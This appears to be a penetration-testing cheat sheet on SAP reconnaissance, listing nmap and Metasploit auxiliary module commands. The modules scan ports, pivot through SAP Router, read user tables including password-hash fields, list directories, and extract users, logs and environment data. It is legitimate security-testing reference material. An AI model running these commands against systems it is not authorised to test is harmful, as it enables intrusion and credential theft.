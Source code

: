 ```yaml
---
author(s):
  - Userware
tags:
  - information-gathering
  - active-fingerprinting
  - network-protocols
  - sap
  - network-mapper
  - metasploit-framework
---
```

# SAP

## 01 - Common Ports

```
$ nmap -p 3200-3299,3300-3399,8000-8099,8100-8199 -Pn -sV <IP>
```

## 02 - Banner Grab

```
msf > auxiliary/scanner/sap/sap_mgmt_con_version

msf auxiliary(scanner/sap/sap_mgmt_con_version) > run rhosts=<IP> rport=<PORT>
```

## 03 - Service Discovery

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP> rport=<PORT>
```

## 04 - Information Request

```
msf > use auxiliary/scanner/sap/sap_router_info_request

msf auxiliary(scanner/sap/sap_router_info_request) > run rhosts=<IP> rport=<PORT>
```

## 05 - Port Scanner

> [!INFO]
> If the scanner was able to discover `SAP Router` open port. This can be used as a proxy to enumerate deeper in the network port.

```
msf > use auxiliary/scanner/sap/sap_router_portscanner

msf auxiliary(scanner/sap/sap_router_portscanner) > set ports 32NN,80NN

msf auxiliary(scanner/sap/sap_router_portscanner) > run rhosts=<IP> rport=<PORT>
```

## 06 - System Information

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_system_info

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_system_info) > run rhosts=<IP> rport=<PORT>
```

## 07 - RFC Table

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_read_table

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set table <table_name>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set fields BNAME,BCODE,GLTGV,GLTGB,USTYP,CLASS,LOCNT,ACCNT,ANAME,ERDAT,TRDAT,LTIME,OCOD1,BCDA1,CODV1,OCOD2,BCCDA2,CODV2,OCOD3,BCDA3,CODV3,OCOD4,BCDA2,CODV2,OCOD3,VERSN,TZONE,PASSCODE,PWDHISTORY

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_read_table) > run rhosts=<IP> rport=<PORT>
```

## 08 - Path Traversal

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_eps_get_directory_listing

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_eps_get_directory_listing) > run rhosts=<IP> rport=<PORT>
```

## 09 - OS File Existence

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_pfl_check_os_file_existence

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > set httpusername <username>

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > set httppassword <password>

msf auxiliary(scanner/sap/sap_soap_rfc_pfl_check_os_file_existence) > run rhosts=<IP> rport=<PORT>
```

## 10 - Log Files

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getlogfiles
```

## 11 - Get Environment

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getenv
```

## 12 - Extract Users

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_extractusers
```

## 13 - Access Points

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getaccesspoints
```

## 14 - Process List

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_getprocesslist
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xD - Network Ports/Network Protocols/SAP]]

### Hacktricks

- [Hacktricks: Pentesting SAP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-sap.html)

### Walter Oberacher

- [Walter Oberacher: SAP PENTEST](https://medium.com/swlh/erp-pentest-metasploit-writeup-e65de8ece7d1)

### Red & Blue Team Security

- [Red & Blue Team Security: Penetration Testing SAP Systems - A Real-World Case Study I](https://www.rbtsec.com/blog/unlocking-the-secrets-of-sap-penetration-testing/)